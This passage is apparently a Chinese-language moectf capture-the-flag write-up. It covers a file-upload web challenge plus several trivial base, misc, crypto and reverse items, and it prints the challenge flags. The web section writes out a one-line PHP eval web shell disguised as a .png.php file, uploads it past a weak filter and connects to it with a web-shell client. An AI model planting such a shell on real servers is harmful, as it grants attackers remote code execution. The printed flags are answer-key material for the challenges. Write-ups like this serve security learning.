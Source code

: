 ```php
}
?>

```

所以构建`a.png.php`

```php
<?php
	eval(@$_POST['password']);
?>
```

上传到`/var/www/html/uploads/a.png.php`，但实际上对应的网址是`http://xxx.xxx.xxx/uploads/a.png.php`

之后使用中国蚁剑链接，在根目录下找到flag`moectf{hmmm_improper_filter_ETZzkuWbtpEvHgwPhbdIlaP6TSSNrHE7}`



## Base

### 1.CCCCC

打开Dev-cpp运行一下

### 2.Python

python运行一下

### 3.runme

cmd/powershell直接调用 `.\runme.exe`

## Misc

### 1.入门

观察得base64加密，遂解密

```
moectf{h@v3_fun_@t_m15c_!}
```

## CLassical Crypto

### 1.ezrot

rot47加密，在线解密即可

## Reverse

### 2.base_64
